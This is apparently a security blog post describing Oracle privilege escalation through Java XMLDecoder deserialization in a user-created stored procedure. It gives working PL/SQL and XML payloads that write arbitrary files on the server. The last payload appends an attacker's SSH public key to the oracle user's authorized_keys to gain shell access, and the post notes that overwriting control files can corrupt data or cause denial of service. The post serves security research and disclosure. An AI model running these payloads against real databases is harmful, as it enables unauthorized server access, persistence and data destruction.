

http://obtruse.syfrtext.com/2018/07/oracle-privilege-escalation-via.html
XML Deserialization
XML serialization and deserializtion exist in Java to support cross platform information exchange using a standardized industry format (in this case XML). To this end, the java.beans library contains two classes: XMLEncoder and XMLDecoder which are used to serialize a Java object into an XML format and at a later time, deserialize the object.
Typical deserialization vulnerabilities rely on the existence of a service that accepts and deserializes arbitrary input. However, if you have access to a low-privileged Oracle account that can create objects in the user schema (i.e., a user with connect and resource) you can create your own vulnerable deserialization procedure.
As the "TESTER" user, I have created the following Java class "DecodeMe" and a Java Stored Procedure that invokes this class:
create or replace and compile java source named DecodeMe as
import java.io.*;
import java.beans.*;
public class DecodeMe{
public static void input(String xml) throws InterruptedException, IOException {
XMLDecoder decoder = new XMLDecoder ( new ByteArrayInputStream(xml.getBytes()));
Object object = decoder.readObject();
System.out.println(object.toString());
decoder.close();
}
}
;
/
CREATE OR REPLACE PROCEDURE decodeme (p_xml IN VARCHAR2) IS
language java name 'DecodeMe.input(java.lang.String)';
/
The decodeme procedure will accept an arbitrary string of XML encoded Java and execute the provided instructions. Information on the proper format for the serialized XML can be found here. This block will simply call println to output data to the terminal.
BEGIN
decodeme('<?xml version="1.0" encoding="UTF-8" ?>
<java version="1.4.0" class="java.beans.XMLDecoder"> <object class="java.lang.System" field="out">
<void method="println">
<string>This is test output to the console</string>
</void>
</object>
</java>');
END;
/

It turns out that the deserialization process bypasses JVM permission settings and allows a user to arbitrarily write to files on the OS. See the following example script:
BEGIN
decodeme('
<java class="java.beans.XMLDecoder" version="1.4.0" >
<object class="java.io.FileWriter">
<string>/tmp/PleaseDoNotWork.txt </string>
<boolean>True</boolean>
<void method="write">
<string>Why for the love of god?</string>
</void>
<void method="close" />
</object>
</java>');
END;
/
Executing this anonymous block creates a file named "PleaseDoNotWork.txt" in the /tmp folder:


Therefore via deserialiazation, we can write arbitrary files to the file system, bypassing the built-in security restrictions.
Exploitation
As it turns out, we can not only write new files to the system, we can also overwrite or append any file on which the Oracle user has write permissions. Clearly this has severe ramifications for the database, as an attacker could overwrite critical files - including control files - which could result in a successful Denial of Service attack or data corruption.
However, with a carefully crafted payload, we can use this deserialization attack to gain access to the server as the Oracle user.
Assuming SSH is open on the server and configured to accept RSA connections, the following payload will append an RSA token to the Oracle account that manages the database processes.
BEGIN
decodeme('
<java class="java.beans.XMLDecoder" version="1.4.0">
<object class="java.io.FileWriter">
<string>/home/oracle/.ssh/authorized_keys</string>
<boolean>True</boolean>
<void method="write">
<string>ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQCedKQPeoJ1UeJEW6ZVkiuWAxBKW8F4fc0VrWxR5HEgaAcVodhgc6X7klyOWrJceGqICcCZd6K+/lvI3xaE2scJpRZWlcJQNCoZMRfmlhibq9IWMH0dm5LqL3QMqrXzZ+a2dfNohSdSmLDTaFHkzOGKEQIwHCv/e4e/eKnm0fUWHeL0k4KuCn3MQUN1HwoqoCciR0DrBDOYAKHxqpBv9rDneCdvaS+tqlr5eShjNlHv1YzJGb0lZZlsny19is8CkhcZ6+O+UCKoBPrxaGsfipsEIH5aPu9xVA90Xgsakhg4yoy9FLnES+xmnVxKX5GHyixi3qeWGDwBsAvhAAGLxOc5 </string>
</void>
<void method="close" />
</object>
</java>
');
END;
/